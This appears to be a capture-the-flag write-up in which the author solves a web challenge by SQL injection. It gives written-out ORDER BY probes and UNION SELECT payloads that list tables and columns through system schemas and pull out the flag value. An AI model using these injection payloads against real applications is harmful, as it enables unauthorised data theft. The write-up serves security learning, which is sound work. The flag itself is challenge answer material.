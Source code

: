 1. Basic login shows up the homepage which has some kind of notes which was stored by us
   These are fetched based on the GET request in the URL which has our name by default.
   For now lets register a user named "hello" for simplicity
2. Lets check whether it is vulnerable to SQL injections by executing simple ' ORDER BY 1 query
   Yes we are not facing any issues which shows that this page is vulnerable to sql injections
3. First of all we need to find the number of fields returned by the query.
   Using the common ORDER BY $x ($x - an integer) we can find that it return 2 fields and luckily both are characters.
4. lets find the tablename containing all the locations of hideouts
   SQL INJECTION on table:sys.schema_table_statistics
   NAME=hello' UNION SELECT table_name,NULL FROM sys.schema_table_statistics;
   lists out the tablenames. pandoralocations seems to the one.
 
5. Unluckily pandoralocations and msg query dont have same number of returning fields. So we       can use simple "SELECT * FROM pandoralocations". We need to find the column names.
6. hello'%20 UNION SELECT COLUMN_NAME ,NULL FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME =     N'pandoralocations'-- 9 
   The above query would give us the column name with which further sql injections should be easier.
   

UNION SELECT base,latitude FROM locations-- 9

We get the flag: p_ctf{t1ll_my_l45t_bre47h_p4ndor4_4ever}